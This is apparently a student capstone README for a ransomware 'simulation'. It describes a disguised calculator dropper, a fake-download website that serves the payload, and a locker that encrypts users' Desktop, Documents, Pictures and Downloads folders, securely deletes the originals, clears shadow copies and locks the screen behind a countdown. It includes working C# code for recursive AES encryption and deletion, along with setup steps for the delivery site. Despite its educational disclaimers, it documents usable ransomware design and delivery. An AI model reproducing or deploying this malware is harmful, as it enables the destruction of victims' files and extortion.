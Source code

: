 


```
# Capstone Project: Ransomware Simulation & Delivery  
**Aimery Barrault | CSCI 460 – Capstone**

---

## 🚀 Project Overview

This repository contains a ransomware simulation for controlled, educational use:

- **CalculatorApp.exe** – a benign “calculator” UI that drops and launches the real payload  
- **capstone-site/** – Next.js “fake download” website to deliver the payload  
- **payload.txt** & **base64script.py** – utilities to embed and extract the encrypted dropper  

 **Do not deploy on production systems or without explicit authorization.**

---

## ⚙️ Setting Up the Fake-Download Site

1. **Enter the site directory**  
   ```
   cd capstone-site
````

2. **Install dependencies**

   ```
   npm install
   # or
   yarn install
   ```

3. **Place your payload**
   Copy `CalculatorApp.exe` into:

   ```
   capstone-site/public/Downloads
   ```

4. **Run in development**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Open [http://localhost:3000](http://localhost:3000).


---

## 🖥️ CalculatorApp (Dropper UI)

**MainWindow\_CalculatorApp.cs** – WPF application that:

* Displays a standard calculator UI.
* On a trigger (e.g. backspace), reads Base64 string, decodes the real dropper, writes it to `%USERPROFILE%\Documents\CalculatorManager.exe`, launches it, and exits.


---

## 🔒 Ransomware Simulator

**MainWindow\_Manager.cs** – WPF application that:

1. **EncryptAll()** – Recursively encrypts user files under:

   * Desktop
   * Documents
   * Pictures
   * Downloads
   * Public Documents
2. **AES-128 CBC** with a fresh IV per file (prepended to ciphertext)
3. **SecureDelete()** – Overwrites original with zeroes, then deletes
4. **Countdown Timer** – 24-hour full-screen, top-most UI lockdown
5. **Password-protected Decrypt** – PBKDF2(SHA-256) verification, max 3 attempts
6. **SelfDestruct()** – Clears shadow copies, zero-wipes key & flag, removes Run-key, then exits

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    // encrypt files in this folder
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; } // skip unreadable folder

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        // securely overwrite & delete original
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>


---

## ✅ Windows Setup & Execution

1. Copy executables & scripts to a Windows 10 VM.
2. Run `CalculatorApp.exe` to drop & launch `CalculatorManager.exe`.
3. Observe `*.aes` files in Desktop/Documents/etc.
4. Enter the correct password to decrypt.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

MIT License. See [LICENSE.md](LICENSE.md) for full terms.

```
```
